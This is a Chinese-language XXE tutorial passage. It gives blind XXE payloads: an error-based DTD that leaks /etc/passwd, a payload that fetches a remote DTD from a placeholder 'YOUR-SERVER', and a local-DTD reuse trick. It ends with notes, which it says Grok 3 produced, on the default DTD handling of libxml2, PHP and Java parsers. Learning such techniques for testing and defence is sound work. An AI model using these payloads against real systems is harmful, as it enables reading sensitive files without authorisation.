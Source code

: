 XXE Payload 載入遠端的 exploit.dtd 並解析。

### Blind XXE - DTD Error

利用錯誤訊息顯示結果

error.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

XXE Payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://YOUR-SERVER/exploit.dtd"> %xxe;]>
```

### 利用系統上現有的 DTD

如果網路無法連外，可以利用系統上的 dtd 觸發錯誤。
例如 GNOME desktop 中的 `/usr/share/yelp/dtd/docbookx.dtd`，裡面定義了 `ISOamso`，我們可以重新定義 `ISOamso` 存取不存在的檔案觸發錯誤

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```



## 預設配置是否解析 DTD?

以下內容由 Grok 3 產生

### 1. **常見 XML 解析器的預設行為**

- **libxml2（C、PHP 等）**:
  - **預設行為**: 預設會解析 DTD，包括外部實體（`SYSTEM` 實體）。
  - **XXE 風險**: 如果未禁用外部實體，會解析 `file://` 或 `http://` 等外部資源，可能導致 XXE 漏洞。
  - **PHP 相關**: 在 PHP 的 `SimpleXMLElement` 或 `DOMDocument` 中，預設會載入外部實體，除非明確設置 `libxml_disable_entity_loader(true)`（PHP 8.0 之前）或使用其他限制。

- **Java (SAX, DOM)**:
  - **預設行為**: 大多數 Java XML 解析器（如 `DocumentBuilderFactory` 或 `SAXParser`）預設會解析 DTD，包括外部實體。
  - **XXE 風險**: 除非明確設置屬性（如 `disallow-doctype-decl` 或 `setFeature` 禁用外部實體），否則存在 XXE 風險。
  - **例外**: 某些較新的 Java 版本（例如 JDK 8+）可能在特定配置下限制外部實體，但仍需手動確保安全。
